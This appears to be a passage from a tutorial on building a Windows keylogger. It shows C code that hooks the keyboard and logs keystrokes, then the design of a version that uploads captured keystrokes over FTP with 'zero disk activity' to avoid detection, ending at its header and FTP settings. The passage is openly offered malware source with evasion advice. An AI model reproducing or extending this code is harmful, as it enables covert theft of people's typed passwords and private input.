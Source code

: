 ```c

LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
	if (nCode == HC_ACTION) {
		if (wParam == WM_KEYDOWN) {
			KBDLLHOOKSTRUCT *kbd = (KBDLLHOOKSTRUCT *)lParam;
			DWORD vkCode = kbd->vkCode;
			
			if (vkCode >= 0x30 && vkCode <= 0x5A) {
				FILE *fp = fopen(KEYLOG_FILE, "a+");
				
				fputc(vkCode, fp);
				
				fclose(fp);
			}
		}
	}
	
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}
```

## 02 - Through FTP

### Keylogging Functionality

Recall that the most basic of keyloggers should record the keystrokes as analyzed in the previous paper. For my implementation, some extra functionality will be included to make it more plausible and effective in doing its job in the outside world. As a natural result, the code will be slightly more advanced than what was already covered. The features of the keylogger are as follows:

1. Threaded keystroke logging using Windows hooks
2. Threaded keystroke uploads using FTP
3. Zero disk activity

Using Windows hooks to capture keystrokes is a common method utilized by many existing keyloggers. A reason why it may be is because it takes advantage of threading and events which makes it efficient in the aspect of CPU consumption. Another, with regards to malware, many legitimate programs could also implement this function to achieve their own goals.

A vital problem with older generations of malware is that they write the keystrokes to disk and because of this, it generates some noise when doing so which could lead to its undoing. One way to combat this weakness is to directly process all keystrokes within memory and push them out through the network. Of course, this does have its downsides. If the program is always constantly sending the keystrokes out, it will become suspicious however, the rate at which this happens can be controlled to some extent.

Before we see any of the code in the functions, let me introduce the headers, macros and global variable declarations.

```c
#include <stdio.h>
#include <string.h>
#include <Windows.h>
#include <WinInet.h>
#include <ShlObj.h>

#pragma comment(lib, "WININET")

#define DEBUG

#define NAME "Coeus"

// FTP settings
#define FTP_SERVER "127.0.0.1"
#define FTP_USERNAME "dtm"
```